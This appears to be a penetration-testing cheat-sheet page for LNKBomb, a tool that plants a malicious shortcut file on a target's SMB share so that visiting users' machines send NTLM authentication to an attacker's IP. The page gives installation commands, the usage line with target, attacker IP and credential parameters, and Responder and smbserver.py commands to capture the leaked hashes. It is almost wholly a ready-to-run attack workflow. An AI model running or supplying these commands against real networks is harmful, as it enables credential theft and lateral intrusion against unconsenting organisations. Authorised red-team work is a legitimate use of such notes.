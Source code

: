 # LNKBomb

## 01 - Setup

Install required dependencies.

```
$ sudo apt install -y python3-colorama

$ pip install pysmb
```

Clone the repository

```
$ sudo git clone https://github.com/dievus/lnkbomb.git /opt/exploitation/lnkbomb/ && \
sudo ln -sf /opt/exploitation/lnkbomb/lnkbomb.py /usr/local/bin/lnkbomb && \
sudo chmod 755 /usr/local/bin/lnkbomb
```

## 02 - Usage

```
$ lnkbomb -t <target_IP> -a <attacker_IP> -s <share_name> -u <username> -p <password> -n <netbios_computername> -w [-r snare.url]
```

Then launch SMB server to capture NTLM hashes.

```
$ sudo responder -I <interface> -dwFP -v

$ smbserver.py . . -smb2support
```

---
## References

- [dievus: LNKBomb](https://github.com/dievus/lnkbomb)